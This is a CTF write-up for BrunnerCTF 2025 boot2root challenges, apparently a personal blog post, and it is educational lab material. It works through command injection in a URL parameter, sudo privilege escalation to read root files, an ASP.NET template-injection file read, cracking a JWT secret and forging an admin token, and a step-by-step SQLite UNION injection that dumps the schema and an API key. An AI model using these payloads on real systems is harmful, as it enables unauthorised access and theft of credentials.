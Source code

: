 ```yaml
---
layout: post
title:  "BrunnerCTF 2025 Boot2Root Challenges"
date:   2025-08-24 22:43:10 -0400
author: robo.uzi
tags: [CTF, boot2root]
---
```

* TOC
{:toc}

## Caffeine (User)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack

This new coffee shop recently opened and you've been waiting too long for your daily caffeine _injection_! Can you find a way to see a little more than just your order status?

> Boot2root challenges are about privilege escalation, normally from a low-privilege user to administrator, or "root". The initial access is often from a web application and typically involve getting a reverse shell or some other remote code execution (RCE) on a server. From there, the point is to get root access on the system. These challenges are split into two parts: user and root. They can only be solved in order.

_The user flag is in a file called `user.txt`._
Note: The series continues in `Caffeine (Root)`.

I visit the site and see it is for placing coffee orders and checking the order status. You can make a POST request when ordering, and a GET request to check order status. 

After some testing I try this: `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|id`. In the output I see `uid=33(www-data) gid=33(www-data) groups=33(www-data)`. Good we have RCE. 

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=135|cat%20user.txt` and get the flag `brunner{C0Ff33_w1Th_4_51d3_0F_c0MM4nD_1nj3Ct10n!}`.

___

## Caffeine (Root)
**Category:** Boot2root

**Difficulty:** Beginner  
**Author:** Quack
{% raw %}
Now that you have access to their system, is there any way you can escalate your privileges and read the final flag?

_The root flag is located in `/root/root.txt`_.

I run `ls -la` and see there is a hint. I run `cat hint.txt` and see: Are there any files you *sudo'ent* (shouldn't) be able to run as a normal user?

Search for suids with `find / -perm /u=s -type f 2>/dev/null`. 

`https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo -l` shows:
```
### Order Status for #127|sudo -l

Matching Defaults entries for www-data on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ctf-caffeine-user-cdb336a4ada8363d-cb5d99db8-9pght:
    (ALL) NOPASSWD: /usr/local/bin/brew
```

Visit `https://caffeine-user-cdb336a4ada8363d.challs.brunnerne.xyz/?order_id=127|sudo%20/usr/local/bin/brew%20/root/root.txt` and get the flag:
```
### Order Status for #127|sudo /usr/local/bin/brew /root/root.txt

   ( (
    ) )
   ( (
  .-'--.
  |◉.◉|  
  |    |  
  '~~~~'  
   ROOT PRIVILEGES DETECTED
   JavaJack's *Special Reserve* Brew

  Brewing your file reading...
═══════════════════════════════════════════════
brunner{5uD0_pR1V1L3g35_T00_h0t_F0r_J4v4_J4CK!}
═══════════════════════════════════════════════

    ) )
   ( (
  .-'-.
  |‼.‼|  
  |   |  
  '~~~'  
   Root Brew Successful!

No order found with ID #127|sudo /usr/local/bin/brew /root/root.txt
```
{% endraw %}
___

## Dotwhat..? (User)
**Category:** Boot2Root

**Difficulty:** Easy-Medium  
**Author:** Quack

Tell me your favourite recipe! The user flag is in a file called `user.txt`.

The site allows you to create a new recipe with a POST request. There are 3 fields. Title, Ingredients, and Instructions. You can make a GET request to view saved recipes. In wappalyzer I see it uses ASP.NET. Looks like serverside template injection.

I test the payload `@System.IO.File.ReadAllText("../user.txt")` in the instructions field and recieve the flag: 
`brunner{m0R3_l1K3_r3c1P3_1NJ3ct1On!}`.

___

## Tickets App (User)
**Category:** Boot2Root
**Difficulty:** Medium  
**Author:** ha1fdan (+ Nissen)

Man, I really wanted to see _Brunner & Bass_, but the tickets app says they're sold out! Maybe there's another way to get myself a ticket...

_The user flag is in a file called `user.txt`._

This one is an honorable mention. I did not get the flag because I didnt check `robots.txt`. I open the site and see I have a json web token (JWT) after I create an account and login. I put it into a file and crack the secret:
```shell
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt jwt.txt  
Using default input encoding: UTF-8  
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])  
Will run 2 OpenMP threads  
Press 'q' or Ctrl-C to abort, almost any other key for status  
secretkey        (?)        
1g 0:00:00:00 DONE (2025-08-24 02:41) 2.222g/s 2903Kp/s 2903Kc/s 2903KC/s service0..seanmclean01  
Use the "--show" option to display all of the cracked passwords reliably  
Session completed.
```
I get the secret: `secretkey`.

When I'm logged in all I can see is my username and `Admin: False`. I create a python script to generate a jwt that allows me to become admin:
```python
import jwt

payload = {
    "user": "admin",
    "admin": True
}

secret = "secretkey"
token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```
Once I am admin I can search for users on the dashboard!

For example searching for `admin` makes a GET request to `https://tickets-app-user-0a24104bb2f7cad1.challs.brunnerne.xyz/api/search?name=admin`. 

Visiting that link I see: `[{"id":1,"is_admin":1,"password":"00ea23da62544a6e7f699a3a24e87044","username":"admin"}]`.

I visit my own profile and grab the password hash. Inputting it to `https://crackstation.net/` proves it is an md5 hash as I chose a simple password and it cracked it.

In the search bar `' OR 1=1 --` returns all users (me and admin). 

`' UNION SELECT NULL,NULL,NULL,NULL --` tells me there are 4 columns.

`' UNION SELECT name,NULL,NULL,NULL FROM sqlite_master WHERE type='table' --` confirms sqlite. 

`' UNION SELECT NULL,name,NULL,NULL FROM sqlite_master WHERE type='table' --`:
```
|Username|Admin Privileges|
|---|---|
|settings|No|
|sqlite_sequence|No|
|users|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,sql,NULL,NULL FROM sqlite_master --`:
```
|Username|Admin Privileges|
|---|---|
||No|
|CREATE TABLE settings ( id INTEGER PRIMARY KEY AUTOINCREMENT, key TEXT NOT NULL UNIQUE, value TEXT )|No|
|CREATE TABLE sqlite_sequence(name,seq)|No|
|CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT FALSE )|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,value,NULL,NULL FROM settings --`:
```
|Username|Admin Privileges|
|---|---|
|BrunnerCTF|No|
|Tickets App|No|
|false|No|
|jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0|No|
|admin|Yes|
|uzi|No|
```

`' UNION SELECT NULL,key,NULL,NULL FROM settings -- `:
```
|Username|Admin Privileges|
|---|---|
|api_key|No|
|ctf_name|No|
|development_mode|No|
|site_name|No|
|admin|Yes|
|uzi|No|
```

`api_key = jmHdkzfav1nr4XKvrVWPyg1XHeLtlTX0`

___
